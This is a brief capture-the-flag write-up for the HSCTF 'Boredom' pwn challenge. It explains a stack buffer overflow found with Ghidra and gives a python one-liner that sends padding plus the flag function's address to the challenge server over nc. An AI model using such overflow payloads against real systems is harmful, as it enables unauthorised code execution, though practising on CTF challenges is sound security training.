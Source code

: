# Boredom

Keith is bored and stuck at home. Give him some things to do.

Connect at nc pwn.hsctf.com 5002.

Note, if you're having trouble getting it to work remotely:

check your offset, the offset is slightly different on the remote server
the addresses are still the same

## Solution

Disassembled with ghidra the bin file and checked that the buffer was 216 locally (208 on server). We tested that if you put 220 "a" the program try to call a function at the address: "0x7f0061616161"
So i just used the command

```
python -c "print 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xd5\x11\x40\x00\x00\x00\x00\x00'" | nc pwn.hsctf.com 5002
```

To trigger it + make it run the function flag (address 0x04011d5) to theg the flag.txt from the server
